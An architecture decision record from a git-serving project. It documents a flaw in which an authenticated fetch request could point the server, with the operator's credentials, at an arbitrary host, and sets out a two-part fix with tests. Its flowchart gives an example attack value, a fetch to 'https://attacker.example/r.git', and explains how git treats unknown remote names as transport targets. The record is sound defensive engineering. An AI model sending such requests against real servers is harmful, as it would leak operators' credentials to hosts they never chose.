



# ADR 0047 — Which host a fetch may contact: a name-shaped newtype *and* a precondition that refuses instead of being skipped

- **Status:** Accepted — implemented and tested.
- **Date:** 2026-08-02.
- **Milestone / issue:** M2.20c, issue #229 ("Fetch: `POST /api/fetch` with streamed
  progress and cancellation"), child of #73 (M2.20, "Remote operations"). Branch
  `feature/m2.20c-fetch-execution`, on top of ADR 0043.
- **Supersedes / superseded by:** Nothing superseded. **Corrects** a claim made by
  [0043](0043-fetch-execution.md) and by `docs/SECURITY_MODEL.md`'s "Remote and Forge
  Credentials" section: that `Precondition::RemoteConfigured` was what stopped a request
  from choosing the host this server connects to. It was not.
- **Related:** [0039](0039-remote-operation-vocabulary.md) (where `FetchRemote`'s
  `RemoteConfigured` precondition was introduced), [0043](0043-fetch-execution.md) (fetch
  execution — the slice that made the gap reachable),
  [0002](0002-versioned-api-contract.md) (a request may not name a repository *path*, for
  the same reason it may not name a remote *URL*),
  [0028](0028-network-tier-ports-not-hosts.md) (the sandbox constrains ports, explicitly
  **not** hosts — which is why this boundary has to hold in the application layer),
  [0042](0042-planner-build-submit-split.md) §3 (the build/submit seam whose
  `held_at_build` census this ADR changes the meaning of),
  [0036](0036-network-tier-exec-harness-askpass-and-redaction.md) (the credential-bearing
  spawn this decides the destination of).

## Context

ADR 0043 wired `POST /api/fetch` to a real `git fetch`. That made this server's first
code path that opens a socket with the operator's credentials on it — a credential
helper, an SSH agent, `~/.ssh/known_hosts` — reachable from an authenticated HTTP
request. The handler's own module doc stated the defence:

> `FetchRequest` carries a name, which the plan's `Precondition::RemoteConfigured` then
> requires to exist in the repository's own configuration. A request that could carry a
> URL would let any authenticated client point this server — and whatever credential
> helper or SSH agent the host offers it — at a host of the client's choosing.

The reasoning is right. The implementation did not do it. **Neither half held.**

```mermaid
flowchart LR
    REQ["POST /api/fetch<br/>remote: 'https://attacker.example/r.git'"] --> V["validate_remote<br/>non-empty? not '-'?"]
    V -->|passes| RN["RemoteName::new"]
    RN -->|"require_git_safe:<br/>accepts anything<br/>without a leading dash"| PLAN["build_plan"]
    PLAN --> PRE["Precondition::<br/>RemoteConfigured"]
    PRE -->|"fails at build:<br/>held_at_build = false"| GATE["enforce_fresh"]
    GATE -->|"skips preconditions<br/>that already failed"| EXEC["exec_fetch"]
    EXEC --> GIT["git fetch --progress<br/>https://attacker.example/r.git"]
    GIT --> NET(["the attacker's host,<br/>with the operator's credentials"])
```



### Half one: the type accepted a URL

`RemoteName` was declared with `require_git_safe` — "non-empty, and does not start with
`-`". `https://attacker.example/r.git` satisfies both. So the "carries a name, not a URL"
sentence was a description of intent, not a property of the type. Nothing downstream
re-checked the shape.

### Half two: the precondition could not fire

`enforce_fresh` re-verifies **only the preconditions that held when the plan was built**.
That is deliberate and, for every other precondition, correct — its own doc explains why:

> One that already failed at build time is skipped here — the executor's own legacy guard
> refuses it with the exact wording it always had.

An unconfigured remote fails at build time. So the one precondition that was supposed to
stop this was skipped *precisely in the case it existed for*.



### Why git makes this worse than an ordinary missing check

`git fetch <arg>` does not reject an argument it cannot find among the configured
remotes. It **falls through to treating it as a transport target**. Verified directly
against git 2.43.0 on this host, before either fix existed:

```
$ git -C repo fetch ghost.git      # no 'ghost.git' remote is configured
From ghost
 * branch            HEAD       -> FETCH_HEAD
$ cat repo/.git/FETCH_HEAD
2e32d646837ebca218d9839ad717e6d2d40500a9		ghost
```

So a *well-formed* name that simply is not configured is silently resolved as a path
relative to the worktree, and a URL-shaped one is resolved as a URL.

There is a second, quieter failure stacked on the first. `exec_fetch` reports what a
fetch did by diffing `refs/remotes/<remote>/*` before and after (ADR 0037's posture). An
ad-hoc target moves **no** remote-tracking ref, so the diff is empty, so the endpoint
answered:

```json
{"remote":"ghost.git","message":"Fetched from ‘ghost.git’: already up to date.","updated_refs":[]}
```

`200 OK`. A fetch that reached a target it was never authorised to reach, reported as a
no-op. That is the exact shape of lie ADR 0037 exists to prevent, arriving through a
door ADR 0037 does not watch.

Note what does **not** help: the sandbox. ADR 0028 is explicit that the Network tier
constrains *ports*, not *hosts*, and says so in terms — "this list is not an egress
policy and must never be described as one". Ports 443 and 22 are open to every host on
the internet. The destination boundary has to be an application-layer boundary or it does
not exist.

## Decision

**Do both halves.** They close different sets, they fail in different ways, and the
cheaper one alone leaves a real hole.

### (a) `RemoteName` refuses every URL and path shape

A new validator, `newtype::require_remote_name`: `require_git_safe`, then ≤ 100 bytes,
then ASCII letters / digits / `.` / `-` / `_` only, no leading `.`, no `..` anywhere.



Every transport form needs at least one of `:`, `/`, `@`, `~` or whitespace. None of them
are in the set. This is the repository's established pattern — `WorktreePath`,
`CommitMessage`, `TagMessage` are all validating newtypes whose `Deserialize` runs the
same validator as `new` — so it lands at the **wire boundary** and reaches every consumer
of the type for free: `PullBranch`, `PushBranch`, `PushTag` and `DeleteRemoteTag` all
carry a `RemoteName` field inside the `GitOperation` a submitted plan deserializes.

### (b) A precondition with no downstream guard refuses at the gate

`planner::refuses_when_unmet_at_build(&Precondition) -> bool` — an exhaustive match with
no wildcard, answering one narrow question per arm: *if this precondition is false and we
run the executor anyway, does the executor refuse?*

| Precondition | Executor's own guard | Verdict |
|---|---|---|
| `RefAt` / `RefExists` / `RefAbsent` | the git command refuses a missing/occupied ref | skip |
| `BranchCheckedOut` / `BranchNotCheckedOut` | git refuses ("cannot delete branch checked out at …") | skip |
| `CleanWorktree` | git refuses a dirty tree | skip |
| `SeedRecorded` | `exec_reset_test_repo` re-reads the seed and 404s | skip |
| **`RemoteConfigured`** | **none — git reinterprets the argument** | **refuse here** |

`enforce_fresh` gains one `else if` arm. The refusal is a `409` naming the remote:

> Remote ‘ghost.git’ is not configured in this repository — nothing was contacted. Add it
> with `git remote add`, or pick a remote this repository knows.



### Why each half is insufficient alone

This is the question a future reader will ask, so it is answered directly.

**(a) alone leaves the unconfigured-but-well-formed case open.** `ghost.git` passes every
character rule any remote-name validator could reasonably impose — it is exactly the
shape `git remote add ghost.git` would produce — and git resolves it as a relative path.
No string rule can consult the repository's configuration, so no amount of tightening the
type reaches this. It is a smaller hazard than the URL case (a path target is inside the
sandbox's filesystem grant, so it cannot reach the network) but it is the same defect:
the operation ran when its stated precondition was false, and lied about the result.

**(b) alone would in fact have closed the network hole** — an unconfigured URL fails
`RemoteConfigured` just as an unconfigured name does, and the gate refuses both. It is
kept anyway, for three reasons:

1. **It is structural rather than positional.** (b) protects operations whose plan
   happens to carry a `RemoteConfigured` precondition. (a) protects the *type*, so a
   future operation, handler or internal caller that takes a `RemoteName` without that
   precondition cannot be pointed at a URL either. Type-level invariants do not have to
   be remembered at each new call site; pipeline-level ones do.
2. **It refuses earlier and more cheaply**, at deserialization, with a message that names
   the actual mistake rather than a downstream symptom.
3. **The two are independently verifiable**, and the mutation testing below exercises
   that: reverting either one alone leaves the network listener untouched, and only
   reverting both re-opens the connection. Two independent proofs of the same property is
   the belt-and-braces posture `require_git_safe`'s own doc comment already argues for.

## Alternatives considered

**Add an executor-side guard in `exec_fetch` (`git remote get-url` before spawning).**
Rejected as the *primary* fix. It is a third check in a third place, it would have to be
re-derived identically in `exec_pull` (#230) and `exec_push` (#231) and each tag
operation, and "re-derived identically at every call site" is exactly what produced this
bug — the precondition already existed and was already meant to be that check. Fixing the
gate makes every current and future carrier of `RemoteConfigured` correct at once. Fixing
the type makes every current and future holder of a `RemoteName` correct at once. An
executor guard would have made exactly one function correct.

**Make `enforce_fresh` refuse *every* build-time-unmet precondition.** Rejected, and the
existing test suite is why. `contract_suite::review_window_seed_drift_fails_closed_with_
the_never_recorded_refusal` asserts that a reset with no recorded seed answers `404` in
the executor's own words. A blanket rule would replace that real, tested refusal — and
every "fatal: a branch named 'dup' already exists" — with a paraphrase from the planner,
losing git's wording for no security gain. The blocked test was information, and it
pointed the right way: the classification belongs per-precondition.

**Distinguish "checked and failed" from "could not be evaluated" in `held_at_build`.**
Considered, and it is a genuinely good idea — it is D5's distinction (`Obs::Unknown` vs.
`Obs::Absent`) applied to the precondition census, and today `held_now` flattens both into
`false`. Rejected *for this fix* because it does not close this hole: the remote here was
successfully checked and genuinely was not configured, so it lands on the "checked and
failed" side under either scheme and would still have been skipped. Recorded as open
scope rather than done half-way.

**Allow URLs but restrict them to an operator-configured allowlist.** Rejected as
premature: there is no allowlist mechanism, no UI for one, and no request in the product
that wants an ad-hoc URL. ADR 0002 already refuses request-supplied repository paths on
the same reasoning.

## Consequences

**A remote name is now narrower than git's own rule.** `git remote add` permits anything
without a slash — including spaces and `:` — so a repository with a remote named
`my remote` or `weird:name` cannot be fetched through this server. Accepted deliberately:
the alternative is accepting a character set that contains a transport shape, and the
type's doc already recorded that in practice the only remote in play is `origin`. A user
who hits this renames the remote; the refusal says exactly what the allowed set is.

**Whitespace is no longer trimmed by the type.** `RemoteName::new("  origin  ")` is now
an error, so `handlers::fetch::validate_remote`'s existing trim became load-bearing
rather than cosmetic. Its doc says so.

**One refusal changed layer, and its wording with it.** A push or fetch naming an
unconfigured remote used to reach git and return git's message; it now returns the
planner's 409. Both paths are still byte-identical to each other, which is what
`review_window_remote_drift_fails_closed_with_the_never_configured_refusal` actually
asserts, so that test still passes — its *prose* was updated, not its assertions.

**Pull inherits this verbatim, and that is why the fix lives on the fetch branch.**
`PullBranch` carries the same `RemoteName` and the same `RemoteConfigured` precondition,
so `feature/m2.20d-pull-execution` gets both halves by rebasing rather than by
re-implementing. The suite asserts it *today*, before pull's executor exists: a pull with
an unconfigured remote is refused by the gate with a `409` rather than reaching pull's
`501` stub — which is the assertion that will keep meaning something once the stub is
replaced.

**Open, recorded rather than hidden:**

- **`enforce_fresh`'s refusals are plain text, not `FetchError`.** `/api/fetch`'s typed
  error contract covers refusals the *handler* makes; the staleness `409` has always been
  a bare string, and this new refusal matches it. Making every planner refusal carry the
  endpoint's error type is a wider contract change than this fix.
- **`held_at_build` still flattens "checked and failed" into "could not check".** See the
  third alternative above. No current precondition is known to be affected, but the
  distinction is the one D5 spent a whole task establishing everywhere else.
- **The listener test's promptness window is bounded, not proved.** The watcher polls
  `accept()` and waits up to one second for a connection to surface before concluding
  none happened. A connect that somehow took longer than that would be missed. One
  unreproduced spurious failure was observed during development (the watcher reported a
  connection on a leg that never spawned git); it was not explained, and the watcher was
  rewritten to count connections across the call window rather than latch a bool, so a
  recurrence now says whether the connection arrived inside the window under test or
  outside it. Reported, not silently smoothed over.

## What proves it

`crates/git-vista-server/src/planner/remote_boundary_suite.rs` — seven tests, all driving
the real pipeline.

The load-bearing one binds a **real TCP listener** on 127.0.0.1:9418 and asserts nothing
connects to it, with a **paired positive control on the same run** — the same URL,
configured as a real remote, must connect. Port 9418 is not incidental: it is the only
unprivileged entry in `sandbox::DEFAULT_GIT_PORTS`, so it is the only port the Network
tier's Landlock connect grant covers. An ephemeral port would have asserted "nothing
connected" against a connect the *sandbox* refused, and would have passed with both fixes
reverted.

The precondition half is observed by effect, not by status code: `.git/FETCH_HEAD` is
absent before and must be absent after, because that file is written by any fetch that
reached a target. This matters because the pre-fix endpoint answered `200 OK` — a
status-code assertion would have been not merely weak but wrong.

### Mutation results

Every fix was reverted in turn and the suite re-run, to prove the tests bite rather than
decorate.

| Mutation | Caught by |
|---|---|
| Both reverted (the original hole) | 6 tests — including the listener test, which reports the connection to `git://127.0.0.1:9418` |
| (a) only — `RemoteName` back to `require_git_safe` | `remote_name_refuses_every_url_and_path_shape`. The listener test still passes: (b) alone closes the network hole |
| (b) only — `RemoteConfigured` back to skip | 4 tests, including `an_unconfigured_remote_is_never_fetched_from` (FETCH_HEAD written, endpoint answers `200 … already up to date`) and pull's. The listener test still passes: (a) alone closes the network hole |
| The whole `else if` arm deleted from `enforce_fresh` | 3 tests |
| Census over-widened (`SeedRecorded` flipped to refuse) | `only_remote_configured_refuses_when_unmet_at_build` and the rewritten planner unit test |

The last row is the anti-vacuity check on the classification itself: the census pins the
`true` set to exactly `{RemoteConfigured}`, so widening it is a visible edit rather than a
side effect.

One existing test had to be rewritten:
`planner::tests::a_precondition_unmet_at_build_time_is_left_to_the_executor` asserted
`enforce_fresh` steps aside — using a never-configured push remote as its example, and
never checking that anything caught the operation afterwards. It was pinning the
mechanism of this hole as though it were a guarantee. The rule it states is still the
rule, so the test was kept and made stronger rather than deleted: the example moved to
`RefAbsent`, a second leg now **proves** the executor's guard fires (`fatal: a branch
named 'dup' already exists`), and a third leg asserts the `RemoteConfigured` exception
directly.

---

**Signed:** thomas2025 · 2026-08-02T22:20:00-04:00
